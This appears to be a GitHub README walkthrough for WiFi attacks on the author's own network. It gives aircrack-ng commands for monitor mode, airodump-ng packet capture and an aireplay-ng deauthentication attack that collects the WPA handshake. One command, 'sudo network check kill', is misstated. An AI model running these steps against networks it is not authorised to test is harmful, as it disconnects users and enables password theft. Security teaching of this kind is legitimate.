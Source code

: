 # Run "ifconfig" to check if wireless adapter is properly connected to machine & to check adapter name. 
In my case it's (wlan0).
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-12-38.png">

# Followed by "iwconfig" to check what mode your wireless adapeter is in
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-16-01.png">

# "ifconfig wlan0 down", "sudo network check kill" - to drop wlan0 conection and kill all network process connected to machine respectively.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-17-23.png">

# "iwconfig wlan0 mode monitor", "ifconfig wlan0 up" - turn on monitor mode on wireless adapter and bring up wlan0 connection.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-09.png">

# Check wlan0 status, should be in monitor mode now.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-20.png">

# "airodump-ng wlan0" - to monitor packets and wireless services around you.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-59.png">

# Displays both network and connected devices(STATION section), quit the process by hitting the "CTRL + C" on your keyboard.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-19-17.png ">

# "airodump-ng --bssid (enter bssid) --channel (enter CH) wlan0" - to monitor packets on a specific network.
chose the network with the name H4CKER which is my personal network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2012-19-13.png">

# "airodump-ng --bssid (enter bssid) --channel(enter CH) --write (name file) wlan0" - capture packets in a file 
* Run a deauthentication attack with"aireplay-ng --deauth 10 -a (target BSSID) -c (target MAC) wlan0 " on another pane to capture network handshake.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-18.png">



